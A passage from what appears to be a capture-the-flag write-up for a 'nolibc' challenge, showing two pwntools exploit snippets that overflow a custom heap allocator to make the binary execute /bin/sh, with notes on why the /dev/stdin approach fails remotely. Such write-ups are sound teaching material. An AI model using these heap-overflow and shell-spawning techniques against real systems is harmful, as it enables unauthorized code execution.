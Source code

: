 ```python
p.sendlineafter(b"Choose an option", b"5")
p.sendlineafter(b"filename:", b"/dev/stdin")

payload = b"a" * 0x3f30
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x3b)
p.sendline(payload)

p.sendlineafter(b"Choose an option", b"5")
p.sendline(b"/bin/sh")
```

Unfortunately, this solution only works on local. On remote, the binary can't
access `/dev/stdin` or any of the other alternatives (I tried `/proc/self/fd/0`,
`/dev/tty` etc), so we can't read in the overflow directly like that :(

I probably overthought this solution anyway...

---

### create_string method

The other alternative is to simply use `create_string` to overflow the heap
directly. After registering, the size of `forest_chunk` is still `0xbf80`. From
`create_string`, we can fill up the heap with `0xbf * 0x100` chunks. The last
chunk left, `0x80`, will be used to overflow.

Note that we need to make a bit of space for the `malloc(0x20)` call when
reading in the filename, if not the program will crash.


```python
for i in range(0xbf):
    print(i)
    create_string(0xef, b"asdf")

payload = b"a"*0x70
payload += p32(0x0)
payload += p32(0x1)
payload += p32(0x3b)
payload += p32(0x3)
create_string(0x7f, payload)

# make space
delete_string(0)

p.sendlineafter(b"Choose an option", b"5")
p.sendline(b"/bin/sh")
```

When running my exploit on remote, I realized how slow it was:

![A taste of things to come](@images/2024/sekai-2024/nolibc-super_slow.gif)
